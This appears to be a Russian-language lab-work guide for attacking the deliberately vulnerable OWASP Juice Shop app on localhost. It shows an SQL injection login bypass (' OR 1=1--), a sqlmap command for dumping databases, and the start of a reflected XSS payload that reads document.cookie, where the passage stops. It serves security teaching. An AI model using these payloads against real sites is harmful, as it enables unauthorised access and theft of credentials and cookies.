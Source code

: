 - Декриптация хэшей паролей
    
- Экспорт результатов в форматы CSV, HTML
---

## Ход выполнения лабораторной работы

_Целевой хост: `http://localhost:3000` (стандартный для Juice Shop)_

### Шаг 1: Эксплуатация SQL-инъекций

**Цель:** Получить доступ к учетным данным администратора.

1. Перехватите запрос авторизации через Burp Suite.
    
2. В поле `email` введите:
    

sql

Copy

Download

' OR 1=1--  

3. Запустите SQLMap для автоматизации:
    

bash

Copy

Download

sqlmap -u "http://localhost:3000/rest/user/login" --data="email=*&password=test" --risk=3 --level=5 --dbs  

_Флаги:_

- `--dbs`: Перечислить базы данных.
    
- `--tables -D DB_NAME`: Получить таблицы.
    

---

### Шаг 2: Проведение XSS-атак

**2.1. Отражённый XSS (поиск):**

1. Введите в поисковую строку:
    

html

Copy

Download

Run

<script>alert(document.cookie)</script>  
